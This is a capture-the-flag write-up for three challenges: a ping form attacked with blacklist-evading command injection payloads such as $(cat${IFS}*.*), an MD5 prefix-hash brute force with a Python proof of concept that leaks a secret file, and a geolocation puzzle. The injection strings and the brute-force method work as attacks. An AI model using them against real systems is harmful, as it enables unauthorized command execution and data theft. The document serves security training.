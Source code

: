# Table Of Contents
1. [Web Baby](#web-baby)
2. [Ye Olde News Website](#ye-olde-news-website)
3. [Relic Race](#relic-race)

## Web Baby

The website contains a function to ping an IP Address. Looking through the source code, we can deduce that multiple restrictions are set, namely:

1. Input cannot be longer than 15 characters
2. Many special characters are blacklisted

The characters below are the few that are not blacklisted:

* {}, (), $

​![image](assets/image-20231209205806-d5jxrso.png)​

Notice how the code takes our user input without sanitizing it. This makes the program vulnerable to **command injection**. After searching through cheatsheets such as **payloadallthethings**, I eventually found out  *$() * can be used for command injection.

​`$(whoami)`​

* bad address 'baby_web'

​`$(pwd)`​

* bad address '/'

​`$(ls)`​

* no result was shown, hinting that all files and directories are hidden in '/'

​`$(ls${IFS}*)`​

* ls: can't open 'root': Permission denied

Initially, I thought that **ls was disabled on the machine**. Thus, I searched for alternatives to ls and found this article:

* https://ubunlog.com/en/alternativas-al-comando-ls/

In the article I found this:

```
for **list hidden files** we will execute:
	echo *.*
```

After using that with the payload `$(ls${IFS}*.*)`​, we received the output:

* bad address 'flag.txt'

Replace ls with cat to get the flag! `$(cat${IFS}*.*)`​

* bad address 'STANDCON{1nj3ct1On\_@+\_uR\_c0MM@Nd}'

### References:

https://semgrep.dev/docs/cheat-sheets/go-command-injection/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection

https://0x80dotblog.wordpress.com/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/

https://security.stackexchange.com/questions/219605/command-injection-filtering-bypass

https://www.cobalt.io/blog/a-pentesters-guide-to-command-injection

## Ye Olde News Website

These are the directories of interest found after examining the JavaScript on the web application:

```javascript
<script id="setup">
let HOST = "/"
let params = (new URL(document.location)).searchParams;
let article = params.get("article");
document.getElementById('title').innerHTML = article.split(".")[1];

fetch(HOST+'dir?category=article')
   .then(response => response.text())
   .then(text => document.getElementById("articleList").innerHTML=text)

setTimeout(() => {
fetch(HOST+"getArticle?maxlength=200&name="+article)
   .then(response => response.text())
   .then(text => document.getElementById("content").innerHTML=text.replace(/\\n/g,"<br>").slice(1, -1) + '...<br><br><b>Subscribe to read more!</b>')

document.getElementById('setup').remove();
},1000)
</script>
```

/dir?category=.

* use '.' to list out files since most filenames contain that character

  ​![image](assets/image-20231208233128-hcm8avm.png)​

/getArticle?maxlength=10000&name=article3.secret.txt

* get the text itself without it being cut off.
* maxlength grabs the first x number of characters specified in the url variable.	![image](assets/image-20231208233042-a49nwuv.png)​

* confidential articles are not to be read. Only the hash of such files are provided. Since the hash of the file constantly changes based on the maxlength variable, which is the first x number of characters in the file, we can use that to brute force the flag.

  ​![image](assets/image-20231208233216-vwfz7cs.png)​

  ​![image](assets/image-20231208233232-vicok9t.png)​

Grab the hash of the flag when max length = 10. This is because we already know the first 9 characters of the flag, `STANDCON{`​. Thus, we only need to brute force from the 10th character onwards.

Append all possible characters to the current flag, hash that appended text via md5 and compare hashes. A POC is provided below:

```python
#!/usr/bin/python3
import sys
import hashlib
# Use the latest hash and the current flag you possess to brute force the NEXT CHARACTER in the flag.
# Eg. md5 hash of first 10 chars of the flag as argument1, first 9 characters of flag as argument2.
currenthash = sys.argv[1]
currentflag = sys.argv[2]
wordlist='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_=+\\|~`[]{}'

for x in wordlist:
	newflag = currentflag + x
	hashedNewFlag = hashlib.md5(newflag.encode('UTF-8')).hexdigest()
	if(hashedNewFlag == currenthash):
		print("Latest Character Found!")
		print("Flag: " + newflag)
```

Flag: STANDCON{Y3_0LD3_S1MPL3_FL4G}

​![image](assets/image-20231208125817-77o5wtw.png)​

### References:

https://stackoverflow.com/questions/1009860/how-can-i-read-and-process-parse-command-line-arguments

## Relic Race

We were provided a screenshot of the thief's device. It contains an image of a QR Code, and satellite map image of an unknown location.

​![screenshot](assets/screenshot-20231209212451-adhfb6f.png)​

Decode the qr code using this website:

* https://products.aspose.app/barcode/recognize#/recognized
* M1BOSCO/MARK MR       1A11A1 SINLHRBN XXX  331Y26J 37    00

from the ticket, we deduce Mr. Mark is going from Singapore to Harbin. However, that is NOT the location in the image because China drives on the right side of the road, not the left as shown in the image.

As the hint leads to overpass turbo, a graphical mapping tool which utilises openstreetmaps, I utilised a script I found to locate all **gas stations near banks**.

```
<!--
This is an example Overpass query.
Try it out by pressing the Run button above!
You can find more examples with the Load tool.
-->
<query type="node">
  <has-kv k="amenity" v="bank"/>
  <bbox-query {{bbox}}/>
</query>
<query type="node">
  <around radius="300"/>
  <has-kv k="amenity" v="fuel"/>
</query>

<print/>
```

Search all located nodes found, 17 in my case, and you will eventually find the exact location as shown in the initial **screenshot.png** file provided to us.

​![image](assets/image-20231208174208-rhkikcw.png)​

​![image](assets/image-20231208174224-9q7ruwt.png)​

Grab the coordinates and place it into google maps to double check:

​![image](assets/image-20231208174249-37rjtg6.png)​

Try the postal code of both the bank and the fuel station. In the end, the postal code of the fuel station is the correct answer for the flag.

* 312 Seven Sisters Rd, Greater, Finsbury Park, London N4 2AW, United Kingdom
* STANDCON23{N4 2AW}

### References

https://help.openstreetmap.org/questions/33089/proximity-search-node-with-tag1-near-node-with-tag2

https://wiki.openstreetmap.org/wiki/Map_features#Aerialway
